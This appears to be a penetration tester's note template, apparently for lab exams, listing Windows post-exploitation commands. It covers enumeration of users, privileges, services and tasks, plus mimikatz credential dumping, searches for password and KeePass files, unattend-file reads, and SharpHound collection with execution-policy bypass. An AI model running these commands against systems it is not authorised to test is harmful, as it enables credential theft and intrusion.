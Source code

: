 <% tp.file.rename("2_loot_Windows")%>
Hostname `hostname`
	

## PrivEsc Relevant

#### winPEAS Script
	

##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
```powershell
Get-LocalGroup
```
Alternative: `net localgroup`
Of interest: Non-standard groups, _Administrators_, _Backup Operators_ (Universal file access), _Remote Desktop Users_ (RDP), and _Remote Management Users_ (WinRM)
```powershell
Get-LocalGroupMember administrators
```
	
Alternative: `net localgroup administrators`
##### Privileges:
```powershell
whoami /all
```

```powershell
reg query "HKU\S-1-5-19"
```
	
(_SeImpersonatePrivilege_ or _SeAssignPrimaryToken_ -> Named Pipes [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or Juicy/Rotten/Sweet Potato)
(Also of interest: _SeBackupPrivilege_, _SeLoadDriver_, and _SeDebug_)
Example for administrative, non-vulnerable account:
	```
	Group Name                                                    Type             SID          Attributes
	============================================================= ================ ============ ==================================================
	Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
	BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
	BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
	LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
	Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
	``` https://learn.microsoft.com/de-de/windows-server/identity/ad-ds/manage/understand-special-identities-groups
##### Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### Passwords (mimikatz)
```powershell
privilege::debug
```

```powershell
token::elevate
```

```powershell
lsadump::sam
```
(lsadump::lsa /patch ??)
```powershell
vault::cred /patch
```
	
##### SysInfo
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
	
(See: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions)
##### Interesting user files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -Include *password* -Include proof.txt -Include local.txt -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
	
##### Running processes
```powershell
tasklist /SVC
```
	
(Alternative: `Get-Process`)
Standard processes:
	AggregatorHost
	CompatTelRunner
	conhost
	csrss
	ctfmon
	dllhost
	dwm
	fontdrvhost
	LogonUI
	lsass
	MicrosoftEdgeUpdate
	msdtc
	MsMpEng
	rdpclip
	RuntimeBroker
	SearchHost
	SearchIndexer
	SecurityHealthSystray/-Service
	services
	SgrmBroker
	ShellExperienceHost
	sihost
	smss
	StartMenuExperienceHost
	svchost
	taskhostw
	tasklist
	vm3dservice
	vmtoolsd
	wininit
	winlogon
	WmiApSrv
	WmiPrvSE
	WUDFHost
##### Installed programs
```powershell
wmic product get name"," version"," vendor
```
	
 Alternative: `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (32-bit) and `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`. Also, check the _Program Files_ directories as this list might be incomplete
##### Services
```powershell
wmic service get name","displayname","pathname","startmode |findstr /i "auto" |findstr /i /v "c:\windows\\"
```
Alternatives: `Get-Service` or
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,StartMode,PathName | Where-Object {$_.State -like 'Running'}
```
Check if non-default services have files with lax write-permissions (W or F):
```powershell
icacls $file
```
	
(Alternative: `Get-ACL`)
Also check if any of the pathnames are unquoted but contain spaces. e.g. with: `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
##### Scheduled tasks
```powershell
schtasks /query /fo LIST /v
```
Alternative: `Get-ScheduledTask`
```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" } | where { $_.Author -notlike "*Microsoft*" } | where { $_.Author -notlike "*N/A*" } | where { $_.Author -ne "Author" }
```

```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" } | where { $_."Run As User" -like "SYSTEM" }
```
	
##### Systemwide patches
```powershell
wmic qfe get Caption"," Description"," HotFixID"," InstalledOn
```
	
##### History
```powershell
Get-History
```

```powershell
(Get-PSReadlineOption).HistorySavePath | cat -
```


## Loot for later
##### Home folder
```powershell
dir /B /S /A-D
```

```powershell
Get-ChildItem -Recurse -Path C:\Users\offsec | select Parent,Name
```
	
##### Network interfaces
```powershell
ipconfig /all
```
	
##### Firewall settings
```powershell
netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```
	
##### Gateways
```powershell
route print
```
	
##### Listeners/Connections
```powershell
netstat -ano
```
	
##### Mounted Volumes
```powershell
mountvol
```
	
##### Drivers	
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"
```
	
##### Devices
```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
```
	
##### Softwareverteilung?
```powershell
cat c:\sysprep.inf
```

```powershell
cat c:\sysprep\sysprep.xml
```

```powershell
cat %WINDIR%\Panther\Unattend\Unattended.xml
```

```powershell
cat %WINDIR%\Panther\Unattended.xml
```
	
Shadow Copy?
```powershell
vssadmin list shadows
```

```powershell
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
	


# Bloodhound
Kali:
```bash
sudo apt-get install neo4j bloodhound && sudo neo4j console && bloodhound
```

```bash
scp SharpHound.exe $user@$hip:"C:\\Users\\$user\\Downloads"
```

Victim:
```powershell
powershell -ep bypass
```

```powershell
cd Downloads
```

```powershell
.\SharpHound.exe --CollectionMethods All --zipfilename data.zip -d $dnsserver
```





# Findings